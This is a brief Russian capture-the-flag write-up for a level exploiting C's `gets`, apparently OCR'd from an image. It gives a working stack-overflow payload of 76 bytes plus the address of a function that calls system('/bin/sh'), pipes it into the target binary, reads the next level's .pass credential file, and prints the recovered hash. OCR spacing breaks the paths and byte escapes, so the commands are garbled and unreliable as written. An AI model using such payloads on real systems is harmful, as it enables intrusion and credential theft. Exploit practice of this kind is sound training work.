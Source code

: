 # Функция C `gets`

# Готовим payload для эксплойта

1. $> python -c 'print "a" * 76 + "\ x44 \ x84 \ x04 \ x08"'> / tmp / payload

    \ x44 \ x84 \ x04 \ x08 соответствуют младшему порядку байтов адреса 08048444

#     Адрес соответствует началу функции `run`
#     В функции `run` мы видим `system (" / bin / sh ")`
2. $> cat / tmp / payload - | ./level1
3. > cat /home/user/level2/.pass

53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

# (￣ρ￣)..zzZZ
